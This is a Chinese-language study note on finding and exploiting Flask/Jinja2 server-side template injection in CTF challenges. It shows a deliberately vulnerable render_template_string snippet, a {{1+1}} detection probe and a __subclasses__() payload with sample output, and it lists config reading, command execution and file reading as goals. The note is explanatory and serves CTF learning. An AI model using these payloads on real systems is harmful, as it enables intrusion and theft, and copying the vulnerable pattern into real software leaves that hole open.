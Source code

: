 ## 1. 探测SSTI漏洞

flask使用双写大括号语法`{{Expression}}`来渲染模板, 当代码中出现如下所示:
```python
t = "Welcome you : {}".format(name)
return render_template_string(t)
```
通过构造`name={{1+1}}`获得结果*Welcome you : 2*可以获知此处存在SSTI漏洞

相关前置知识可参考: 
* [[浅谈flask ssti 绕过原理#前置知识]]
* [[以 Bypass 为中心谭谈 Flask-jinja2 SSTI 的利用#前置知识]]

## 2. 攻击利用

遇上一个SSTI的题，该如何下手？大体上有以下几种思路:

* 查配置文件
* 命令执行（其实就是沙盒逃逸类题目的利用方式）
* 文件读取

参考: [[以 Bypass 为中心谭谈 Flask-jinja2 SSTI 的利用#Flask-jinja2 SSTI 一般利用姿势]]

## 3. 获取基类的几种方法
参考: [[关于SSTI注入的二三事#总结#获取基类的几种办法]]

## 4. 获取目标索引的方法

1. 使用`[]`下标获取索引
	参考: [[以 Bypass 为中心谭谈 Flask-jinja2 SSTI 的利用#寻找 popen 函数执行命令]]
2. 使用`list()`过滤器获取索引
	例如: `?name={{().__class__.__bases__[0].__subclasses__()}}`
	返回: 
```
Welcome you : ['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__file__', '__cached__', '__builtins__', 'os', 'socket', 'sys', 'pkgutil', 'posixpath', 'mimetypes', 'time', 'FileSystemLoader', 'message_flashed', 'session', '_request_ctx_stack', '_app_ctx_stack', 'current_app', 'request', 'string_types', 'text_type', 'PY2', '_missing', '_os_alt_seps', 'get_env', 'get_debug_flag', 'get_load_dotenv', '_endpoint_from_view_func', 'stream_with_context', 'make_response', 'url_for', 'get_template_attribute', 'flash', 'get_flashed_messages', 'send_file', 'safe_join', 'send_from_directory', 'get_root_path', '_matching_loader_thinks_module_is_package', 'find_package', 'locked_cached_property', '_PackageBoundObject', 'total_seconds', 'is_ip']
```
   则`request` 索引是第21	
3. 使用脚本搜索
	参考: [[关于SSTI注入的二三事#ctfshow web368]]